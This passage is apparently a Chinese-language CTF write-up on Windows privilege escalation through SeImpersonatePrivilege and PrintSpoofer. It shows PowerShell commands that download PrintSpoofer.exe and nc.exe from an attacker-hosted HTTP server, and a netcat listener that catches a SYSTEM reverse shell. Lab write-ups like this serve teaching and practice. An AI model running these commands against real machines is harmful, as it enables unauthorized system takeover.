 ***![](img/94b9f9bc6769e3eaf068b923f38cfe54.png)***

***特权信息。***

***我看到当前用户有“***SeImpersonatePrivilege***”。根据[黑客技巧](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege-3.1.1):***

> ***任何拥有这个特权的进程都可以**模拟**(但不能创建)任何它能够获得句柄的**令牌**。你可以从一个 **Windows 服务** (DCOM)中获得一个**特权令牌**，使其针对漏洞执行一个 **NTLM 认证**，然后作为**系统**执行一个进程。使用 [juicy-potato](https://github.com/ohpe/juicy-potato) 、 [RogueWinRM](https://github.com/antonioCoco/RogueWinRM) (需要禁用 WinRM)、 [SweetPotato](https://github.com/CCob/SweetPotato) 、 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) 来利用它。***

***我决定利用 PrintSpoofer 漏洞。我用 PowerShell 上传了“**【PrintSpoofer.exe】**”和“***【nc.exe】***”可执行文件。***

```
*# setup HTTP server on attacking machine where executables are stored.sudo python3 -m http.server 80# Use Powershell to upload the executables.Invoke-WebRequest -Uri [http://10.*.*.*/PrintSpoofer.exe](http://10.2.36.156/PrintSpoofer.exe) -Outfile printspoofer.exe
Invoke-WebRequest -Uri [http://10.*.*.*/nc.exe](http://10.2.36.156/nc.exe) -Outfile nc.exe*
```

***接下来，我用 **netcat** 执行了“***PrintSpoofer.exe***”漏洞，创建了一个交互式 shell。***

```
*nc -lvnp 4444*
```

***![](img/8b1231fdc566dfce682079126ff93bfd.png)***

******PrintSpoofer.exe***利用 **netcat。*****

***这给了我一个提升的交互式外壳，从那里我可以得到最终的标志！😄***
